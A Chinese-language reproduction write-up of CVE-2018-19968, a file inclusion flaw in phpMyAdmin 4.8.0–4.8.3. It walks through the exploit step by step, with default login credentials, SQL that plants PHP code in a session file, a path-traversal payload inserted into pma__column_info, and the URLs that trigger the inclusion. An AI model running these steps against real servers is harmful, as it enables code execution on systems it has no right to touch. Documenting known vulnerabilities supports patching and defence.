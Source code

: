 ```yaml
---
title: "（CVE-2018-19968）Phpmyadmin 文件包含漏洞"
id: zhfly3083
---
```


# （CVE-2018-19968）Phpmyadmin 文件包含漏洞

## 一、漏洞简介

Transformation是phpMyAdmin中的一个高级功能，通过Transformation可以对每个字段的内容使用不同的转换，每个字段中的内容将被预定义的规则所转换。比如我们有一个存有文件名的字段 ‘Filename’，正常情况下 phpMyAdmin 只会将路径显示出来。但是通过Transformation我们可以将该字段转换成超链接，我们就能直接在 phpMyAdmin 中点击并在浏览器的新窗口中看到这个文件。

通常情况下Transformation的规则存储在每个数据库的pma__column_info表中，而在phpMyAdmin 4.8.0~4.8.3版本中，由于对转换参数处理不当，导致了任意文件包含漏洞的出现。

## 二、漏洞影响

Phpmyadmin 4.8.0~4.8.3

## 三、复现过程

1、首先登陆进后台，这里默认是root, toor

![image](../img/a4b5bebf12d3983bc6ae6845cadd02f3.png)

2、创建数据库，并将PHP代码写入SESSION文件中

```
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>'; 
```

访问http://www.0-sec.org/chk_rel.php?fixall_pmadb=1&db=foo在数据库foo中生成phpMyAdmin的配置表。

![image](../img/07cf551b7d9217f5021975d024ac1776.png)

将篡改后的Transformation数据插入表pma__columninfo中将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值，抓包查看session id，如下

![image](../img/800a3c5bf8dd880a0219d2450fb46d1c.png)

```
INSERT INTO pma__column_info SELECT '1', 'foo', 'bar', 'baz', 'plop', 'plop', 'plop', 'plop', '../../../../../../../../tmp/sess_***','plop'; 
\#将sess_***中的***替换成你的会话ID，即COOKIE中phpMyAdmin的值 
```

![image](../img/5efac406f0811d415d0d16ea22bdbcd8.png)

然后访问

http://www.0-sec.org/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1 就能自动包含刚才插入数据库表的恶意代码

![image](../img/30961b75c3789cf7a3f64f83f67911c8.png)
